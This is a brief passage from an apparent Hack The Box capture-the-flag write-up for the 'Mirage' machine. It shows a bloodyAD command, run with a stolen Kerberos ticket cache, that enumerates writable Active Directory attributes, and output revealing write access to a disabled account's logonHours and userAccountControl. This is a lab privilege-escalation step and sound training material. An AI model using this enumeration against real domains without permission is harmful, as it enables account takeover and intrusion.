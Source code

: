 ![alt text](../../../assets/images/ctf/events/season8-htb-25/2025-07-26-week10-mirage.md/2025-07-26-week10-mirage/images/image-4.png)

Let's look at all available ACE fields we can write accross the domain.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get writable --detail 
```
    ... 
    distinguishedName: CN=mark.bbond,OU=Users,OU=Support,OU=IT_Staff,DC=mirage,DC=htb
    ...
    distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
    logonHours: WRITE
    userAccountControl: WRITE
